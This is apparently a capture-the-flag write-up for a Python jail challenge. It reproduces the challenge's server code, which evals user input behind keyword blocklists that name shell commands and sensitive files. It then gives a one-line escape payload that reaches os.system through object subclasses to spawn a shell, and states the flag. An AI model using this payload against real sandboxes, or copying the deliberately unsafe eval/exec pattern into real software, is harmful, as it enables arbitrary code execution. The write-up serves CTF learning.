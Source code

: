 # list-dir-list
> i am inside '.'. find me out

## About the Challenge
We were given a server to connect and the source code
```
nc chall.foobar.nitdgplug.org 30012
```
And here is the python code
```python
import random
key = open('key.txt').read()
random.seed(2023)
enc_key = ""

for j in range(8):
    i = 0
    lst = []
    while i < len(key):
        lst.append(key[i+j])
        i += 8

    random.shuffle(lst)
    for c in lst:
        enc_key += c

print("this may be helpful:")
print(enc_key)



blacklist = [
    "import",
    "os",
    "sys",
    "ls",
    "cat",
    "la",
    "flag",
    "tac",
    "key",
]

strictly_prohibited = [
    "apt",
    "install",
    "cd",
    "builtins",
    "subprocess",
    "exec",
    "eval",
    "input",
    "blacklist",
    "strictly_prohibited",
    "echo",
    "grep",
    "find",
    "pickle",
    "key",
    "write"
]

while True:
    cmd = input(">>> ")
    evl_cmd = eval(cmd)
    can_run = True
    for word in strictly_prohibited:
        if word in evl_cmd.lower():
            can_run = False
            break

    if can_run:
        if evl_cmd[0:len(key)] == key:
            exec(evl_cmd[len(key):])
        else:
            for word in blacklist:
                if word in evl_cmd.lower():
                    can_run = False
                    break

            if can_run:
                exec(evl_cmd)
```

So the code is about pyjail, we need to escape from the sandbox but there are some restrictions, We cant using some keywords that already stated on `blacklist` and `strictly_prohibited` array. Here is the preview:

![preview](images/preview.png)

## How to Solve?
Im using https://okman.gitbook.io/okman-writeups/miscellaneous-challenges/redpwnctf-albatross as a reference. And here is my final payload

```
().__class__.__base__.__subclasses__()[137].__init__.__globals__["system"]("sh")
```

This command is using some advanced Python features to execute a system command by accessing a specific subclass of `object` and calling a `global` function or method defined within that subclass

![flag](images/flag.png)

After escaping from the sandbox, try to read the `flag.txt` file to get the flag

```
GLUG{h0w_did_u_9u3$$_:(}
```
